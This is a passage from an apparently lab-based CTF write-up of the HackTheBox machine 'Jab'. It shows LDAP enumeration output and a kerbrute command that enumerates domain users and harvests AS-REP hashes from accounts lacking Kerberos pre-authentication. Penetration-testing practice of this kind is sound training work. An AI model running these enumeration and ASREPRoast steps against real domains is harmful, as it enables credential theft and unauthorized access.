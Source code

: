 ```bash
namingContexts: DC=DomainDnsZones,DC=jab,DC=htb
namingContexts: DC=ForestDnsZones,DC=jab,DC=htb

# search result
search: 2
result: 0 Success

# numResponses: 2
# numEntries: 1



ldapsearch   -H ldap://jab.htb -x -b "DC=jab,DC=htb"
# extended LDIF
#
# LDAPv3
# base <DC=jab,DC=htb> with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#

# search result
search: 2
result: 1 Operations error
text: 000004DC: LdapErr: DSID-0C090CE5, comment: In order to perform this opera
 tion a successful bind must be completed on the connection., data 0, v4563

# numResponses: 1
```


- **Enumeration Kerberos**: Since it's a CTF, it's advisable to use a list like `xato-net-10-million-usernames.txt` to enumerate users with `kerbrute`. This list contains `8,295,455` usernames, so it will take some time. However, if you're patient, it will eventually retrieve the hash derived from the `Session Key` encrypted with the user's secret (`ASRepRoast Attack`) for users who lack Kerberos pre-authentication.

>Tip:
>It's worth noting that the `kerbrute` tool has been updated since November 15, 2020, and now automatically captures ASREP hashes, as mentioned in this [commit](https://github.com/ropnop/kerbrute/commit/bc1d606c75c26b2c7448b7025593cb951dfe46bd) and documented in this [issue](https://github.com/ropnop/kerbrute/issues/24).
{: .prompt-tip }

```bash
kerbrute userenum -d JAB.HTB --dc 10.10.11.4 /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
```

- After enumerating services such as `SMB`, `LDAP`, `Kerberos`, `RPC`, and `DNS`, the pentester noticed unusual services on the Domain Controller: `XMPP` and `Jabber`. A quick search helped him identify that Jabber and XMPP are essentially the same protocol. The only distinction lies in the fact that **Jabber is a trademarked term while XMPP serves as the protocol's official designation**.
